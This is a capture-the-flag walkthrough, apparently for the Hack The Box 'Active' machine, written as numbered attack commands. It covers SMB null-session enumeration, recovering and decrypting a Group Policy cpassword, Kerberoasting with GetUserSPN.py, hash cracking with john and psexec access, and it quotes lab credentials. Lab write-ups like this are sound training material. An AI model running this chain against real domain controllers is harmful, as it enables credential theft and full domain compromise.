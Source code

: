1. Enumerate ports

2. When seeing that the machine is using Windows as OS and that the SMB port is open (445 - Microsoft DS) you can try to enumerate the service using "crackmapexec". Usage: crackmapexec smb __{VICTIM's-IP}__         

3. Add the domain paired with the machin ip to the hosts file in /etc/hosts

4. Try to enumerate objects in the domain using a smb client and a null session because of the lack of credentials to enter the server. Usage: smbclient -L __{VICTIM's-IP}__ -N 
- -L : Allows you to look at what services are available on the server 
- -N : Suppresses the normal password prompt from the client to the user. Used in a null session<br><br>
	1. Because the port 88 is open and kerberos is running you can try to enumerate all the users of the server with the usage of kerbrute. Usage: kerbrute userenum --dc __{VICTIM's-IP}__ -d __{DOMAIN ex. active.htb}__ __{WORDLIST}__
	2. For kerberosting and ASREPRoast attack you've to be with the hour in the system equal to the server's one. Tool: ntpdate __{VICTIM's-IP}__

5. After listing all the sharenames you can also list the privileges for each one of those shares. Usage: smbmap -H __{VICTIM's-IP}__
- -H : Stands for Host

6. Right after that step, if a share is public, you can use the -r flag to extract all the information from that share. Usage: smbmap -H __{VICTIM's-IP}__ -r __{SHARE-NAME}__
- -r : List contents of a directory

7. Because of the recognizable structure of the server we can tell this is a sysvol: 
- DfsrPrivate 
- Policies
- scripts

8. While enumerating the service we've to look for Groups.xml because that file sometimes has the password hash to the service so that enables you to enter the system. In this machine particularly Gropus.xml is in the directory:
		Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences

9. In order to download the file you can use smbmap like this: smbmap -H __{VICTIM's-IP}__ --download __{PATH}__/Groups.xml

10. Once having the Groups.xml in our hands we can enter cat out the file and get the hash in the cpassword field. The hash will be like: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ. Besides that, you also have to pay attention to the userName field in order to known which user that password stands for

11. After getting the hash you can get the password by decrypting it with gpp-decrypt. Usage: gpp-decrypt __{HASH}__

12. Once you've get the username and the password you can verify if they're correct with the usage of crackmapexec. Command: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__

13. Now that you have an user you can list all the server shares again to see if you've access to a new-one. Usage: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --shares

14. Now, because we've Read access to the users share we can enumerate it with smbmap with the following command: smbmap -H __{VICTIM's-IP}__ -u SVC_TGS -p GPPstillStandingStrong2k18 -r Users 
- -u and -p : Stands for Username and Password

15. Enumerate till you get the user flag located in the desktop of the user SVC_TGS and download it with the previously named user with the flag --download

16. Log into the service with rpcclient. Usage: rpcclient -U "__{USER}__%__{PASSWORD}__" __{VICTIM's-IP}__
	1. Sometimes you can skip all the previous steps and try to connect with rpcclient with a null session. Way to do it: rpcclient -U "" __{VICTIM's-IP}__ -N
	2. If with the null session attack previously named you get a list of all the users in the server you can try to do an ASREPRoast

17. Useful rpcclient commands: 
- _enumdomusers_ - Enumerate domain users of the domain controller
- _enumdomgropus_ - Enumerate domain groups of the domain controller
- _querygroupmem_ __{RID-OF-GROUP}__ - Enumerates the users that belong to the group with that RID
- _queryuser_ __{RID-OF-A-USER}__ - Gives you all the information on the server about a certain user
- _querydispinfo_ - Enumerates all the descriptions of the users in the domain controller

18. After trying to do an ASREPRoast attack, as we can't seem to get any creedentials we can try using GetUserSPN.py instead of GETNpusers.py. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
	1. This attack will give us a TGS (Ticket Granting Service) of the admin through the usage of credentials previously retrieved from other attacks
	2. After seeing that the tools gives us a response with a TGS of the admin we can add the flag -request to get the credentials for the admin account. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request

19. When you finally have the hash of the admin's password you can dump it into a file called hash and try to crack it. Way: john -w:{Wordlist} {Hash} 

20. Download the root flag with the usage of smbmap and the parameter --download. Way: smbmap -H __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --download Users/Administrator/Desktop/root.txt
	1. Another way to get the flag could be gain system access with the use of psexec.py. Usage: psexec.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASS}__@__{VICTIM's-IP}__ cmd.exe